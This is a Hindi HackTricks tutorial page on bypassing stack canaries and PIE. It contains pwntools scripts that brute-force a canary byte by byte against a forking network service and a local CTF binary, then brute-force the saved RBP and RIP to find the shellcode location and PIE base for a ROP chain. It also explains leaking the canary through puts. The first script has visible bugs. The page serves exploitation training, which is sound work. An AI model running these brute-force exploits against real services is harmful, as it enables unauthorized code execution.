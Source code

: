 <details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>


**यदि आपके सामने एक कैनरी और PIE (Position Independent Executable) द्वारा संरक्षित बाइनरी है, तो आपको शायद उन्हें दरकिनार करने का एक तरीका ढूंढने की आवश्यकता होगी।**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
ध्यान दें कि **`checksec`** यह नहीं पता लगा सकता कि एक बाइनरी को कैनरी द्वारा संरक्षित किया गया है अगर यह स्थाई रूप से कॉम्पाइल किया गया था और यह फ़ंक्शन को पहचानने की क्षमता नहीं है।\
हालांकि, आप इसे मैन्युअल रूप से नोट कर सकते हैं अगर आपको लगता है कि किसी फ़ंक्शन कॉल की शुरुआत में स्टैक में एक मान सहेजा गया है और इस मान की जांच की जाती है पहले बाहर निकलने से पहले।
{% endhint %}

# कैनरी को ब्रूट फ़ोर्स करें

एक साधारण कैनरी को दरकिनार करने का सबसे अच्छा तरीका यह है अगर बाइनरी एक कार्यक्रम है **हर बार जब आप इसके साथ एक नया कनेक्शन स्थापित करते हैं तो चाइल्ड प्रक्रियाएँ फॉर्क करता है** (नेटवर्क सेवा), क्योंकि हर बार जब आप इससे कनेक्ट करते हैं **वही कैनरी उपयोग की जाएगी**।

इसके बाद, कैनरी को दरकिनार करने का सबसे अच्छा तरीका यह है केवल **चार द्वारा ब्रूट-फ़ोर्स करना**, और आप यह जान सकते हैं कि क्या अनुमानित कैनरी बाइट सही था या गलत था जांच करके यदि कार्यक्रम क्रैश हो गया है या अपनी नियमित फ्लो को जारी रखता है। इस उदाहरण में फ़ंक्शन **8 बाइट कैनरी (x64)** को **ब्रूट-फ़ोर्स करता है** और सही अनुमानित बाइट और एक बुरा बाइट के बीच भिन्न करता है बस **जांच करके** कि क्या **सर्वर द्वारा एक प्रतिक्रिया** भेजी गई है (अन्य स्थिति में एक **try/except** का उपयोग किया जा सकता है):

## उदाहरण 1

यह उदाहरण 64 बिट के लिए लागू किया गया है लेकिन आसानी से 32 बिट के लिए लागू किया जा सकता है।
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## उदाहरण 2

यह 32 बिट के लिए कार्यान्वित किया गया है, लेकिन इसे आसानी से 64 बिट के लिए बदला जा सकता है।\
इस उदाहरण के लिए ध्यान दें कि **प्रोग्राम से पहले एक बाइट की आवश्यकता है जो इनपुट और पेलोड का आकार दर्शाती है**।
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# प्रिंट कैनरी

कैनरी को अनदेखा करने का एक और तरीका उसे **प्रिंट करना** है।\
सोचिए एक स्थिति जहाँ एक **कार्यक्रम सुरक्षित** है जो स्टैक ओवरफ्लो को क्रमश: **प्रारंभ** कर सकता है और **puts** फ़ंक्शन को **स्टैक ओवरफ्लो के हिस्से की ओर पॉइंट करता है**। हमलावर को पता है कि **कैनरी का पहला बाइट एक नल बाइट है** (`\x00`) और बाकी कैनरी **रैंडम बाइट्स** हैं। तब, हमलावर एक ओवरफ्लो बना सकता है जो सिर्फ कैनरी के पहले बाइट तक स्टैक को **ओवरराइट** करता है।\
फिर, हमलावर **पेलोड के बीच में पुट्स फ़ंक्शन** को **कॉल करता है** जो सभी कैनरी को **प्रिंट करेगा** (नल बाइट को छोड़कर)।\
इस जानकारी के साथ हमलावर नए हमले को जानता है और भेज सकता है कैनरी को जानते हुए (उसी कार्यक्रम सत्र में)

स्पष्ट है कि यह युक्ति बहुत **सीमित** है क्योंकि हमलावर को अपने पेलोड की **सामग्री** को **प्रिंट** करने की आवश्यकता है ताकि वह **कैनरी** को **निकाल** सके और फिर एक नए पेलोड (उसी **कार्यक्रम सत्र** में) बना सके और **भेज** सके **वास्तविक बफर ओवरफ्लो**।\
CTF उदाहरण: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

PIE को अनदेखा करने के लिए आपको **कुछ पता लगाना** होगा। और यदि बाइनरी को कोई पता नहीं लग रहा है तो सबसे अच्छा करने का तरीका है **स्टैक में सहेजे गए RBP और RIP को ब्रूट-फ़ोर्स करना** जो सुरक्षित फ़ंक्शन में है।\
उदाहरण के लिए, यदि एक बाइनरी को एक **कैनरी** और **PIE** का उपयोग करके सुरक्षित किया गया है, तो आप कैनरी को ब्रूट-फ़ोर्स करना शुरू कर सकते हैं, फिर **अगले** 8 बाइट (x64) में सहेजे गए **RBP** होगा और **अगले** 8 बाइट में सहेजे गए **RIP** होगा।

बाइनरी से RBP और RIP को ब्रूट-फ़ोर्स करने के लिए आप यह तय कर सकते हैं कि एक मान्य अनुमानित बाइट सही है अगर कार्यक्रम कुछ आउटपुट करता है या यह केवल क्रैश नहीं होता है। कैनरी को ब्रूट-फ़ोर्स करने के लिए प्रदान किए गए वही फ़ंक्शन RBP और RIP को ब्रूट-फ़ोर्स करने के लिए उपयोग किया जा सकता है:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## पेस्ट का पता लगाएं

PIE को परास्त करने के लिए आपको आखिरी चीज़ यह है कि लीक हुए पतों से **उपयोगी पतों की गणना करनी है**: **RBP** और **RIP**।

**RBP** से आप **स्टैक में अपने शैल को कहाँ लिख रहे हैं** यह गणना कर सकते हैं। यह जानना बहुत उपयोगी हो सकता है कि आप _"/bin/sh\x00"_ स्ट्रिंग को स्टैक के अंदर कहाँ लिखने जा रहे हैं। लीक हुए RBP और अपने शैलकोड के बीच की दूरी की गणना करने के लिए आप बस एक **ब्रेकपॉइंट डाल सकते हैं जब RBP लीक हो जाए** और चेक कर सकते हैं कि **आपका शैलकोड कहाँ स्थित है**, फिर, आप शैलकोड और RBP के बीच की दूरी की गणना कर सकते हैं:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP** से आप **PIE बाइनरी का बेस पता** कैलकुलेट कर सकते हैं जिसे आपको **एक वैध ROP श्रृंखला बनाने की आवश्यकता है**।
बेस पता की गणना के लिए बस `objdump -d vunbinary` करें और डिसएसेम्बल नवीनतम पते की जांच करें:

![](<../../.gitbook/assets/image (145).png>)

उस उदाहरण में आप देख सकते हैं कि सभी कोड को ढूंढने के लिए केवल **1 बाइट और आधा** आवश्यक है, फिर, इस स्थिति में बेस पता होगा **लीक किए गए RIP पर लेकिन "000" पर समाप्त होने वाला**। उदाहरण के लिए अगर आपने _0x562002970**ecf**_ लीक किया है तो बेस पता _0x562002970**000**_ होगा।
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** PRs को **जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
